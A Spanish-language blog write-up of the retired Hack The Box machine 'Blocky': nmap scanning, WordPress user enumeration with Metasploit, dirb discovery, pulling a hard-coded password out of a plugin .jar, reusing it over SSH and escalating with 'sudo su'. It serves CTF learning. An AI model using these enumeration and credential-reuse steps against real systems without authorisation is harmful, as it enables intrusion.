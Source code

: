 ```yaml
---
layout: post
title:  "Writeup — HTB Blocky"
date:   2017-12-10 13:13:13
author: Andoni A.
categories: Writeups 
tags: linux writeup seguridad ctf
---
```


Buenas, aprovechando que retiraban esta máquina, **Blocky**, de [HTB](hackthebox.eu) (hasta que no los retiran no está permitido publicar writeups sobre sus retos) quería
publicar mi primer writeup.

Esta máquina era bastante sencilla, lo más dificil era no perder el tiempo siguiendo alguna
"pista falsa".

- Como casi siempre, empezamos lanzando un escaneo con NMAP, veo un FTP, SSH y un Apache:
```
PORT     STATE  SERVICE VERSION
21/tcp   open   ftp     ProFTPD 1.3.5a
22/tcp   open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|_  256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
80/tcp   open   http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.8
| http-methods:
|_  Supported Methods: GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: BlockyCraft &#8211; Under Construction!
8192/tcp closed sophos
```
  - El Apache aloja a simple vista un WordPress, parece simular ser la web de un
   server de Minecraft.


- Con un módulo de enumeración de usuariosde WP descubrimos el usuario 'notch':
```
msf auxiliary(wordpress_login_enum) > run -j
[*] Auxiliary module running as background job 7.
[*] / - WordPress Version 4.8 detected
[*] 10.10.10.37:80 - / - WordPress User-Enumeration - Running User Enumeration
[+] / - Found user 'notch' with id 1
[+] / - Usernames stored in: /root/.msf4/loot/20171206134659_default_10.10.10.37_wordpress.users_138712.txt
```

  - Pruebo un par de contraseñas a mano pero nada...


- Para ver que más puede contener la web uso [dirb](https://tools.kali.org/web-applications/dirb) y descubro algunas urls
interesantes como:
  - http://10.10.10.37/phpmyadmin
    - Probamos el usuario notch con varias claves, nada...
  - http://10.10.10.37/plugins/
    - Contiene un par de .jar que descargo para ver si tienen algo interesante.


- Empiezo por 'BlockyCore.jar' ya que parece más "custom" que 'griefprevention-1.11.2-3.1.1.298.jar' y puede que tenga algún fallo:
  ```
  venom :: Machines/Blocky/BlockyCore_jar » strings com/myfirstplugin/BlockyCore.class
  com/myfirstplugin/BlockyCore
  java/lang/Object
  sqlHost
  Ljava/lang/String;
  sqlUser
  sqlPass
  <init>
  Code
          localhost
  root
  8YsqfCTnvxAUeduzjNSXe22
  LineNumberTable
  LocalVariableTable
  this
  Lcom/myfirstplugin/BlockyCore;
  onServerStart
  onServerStop
  onPlayerJoin
  TODO get username
  !Welcome to the BlockyCraft!!!!!!!
  sendMessage
  '(Ljava/lang/String;Ljava/lang/String;)V
  username
  message
  SourceFile
  BlockyCore.java
  ```

- Veo lo que parece un user/pass:
  ```
  root
  8YsqfCTnvxAUeduzjNSXe22
  ```

- Probamos en el login de WP pero no funciona, pruebo por SSH:
  ```
    venom :: Machines/Blocky » ssh root@10.10.10.37
    root@10.10.10.37's password:

    venom :: Machines/Blocky » ssh notch@10.10.10.37        
    notch@10.10.10.37's password:
    Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage

    7 packages can be updated.
    7 updates are security updates.

    Last login: Fri Dec  8 02:16:15 2017 from 10.10.14.79
    notch@Blocky:~$
  ```
    - En el home de notch tenemos la **flag** del user.


- Y después con un simple 'sudo su' accedo al usuario 'root' y obtengo la flag.

Como he dicho, esta máquina era bastante sencilla aunque me costó un buen rato encontrar algo dentro de los .jar...

Espero poder sacar un rato y subir alguno de los retos que me parecieron
interesantes del CTF de la HoneyCON17.

*~ Saludos y que la fuerza os acompañe!*
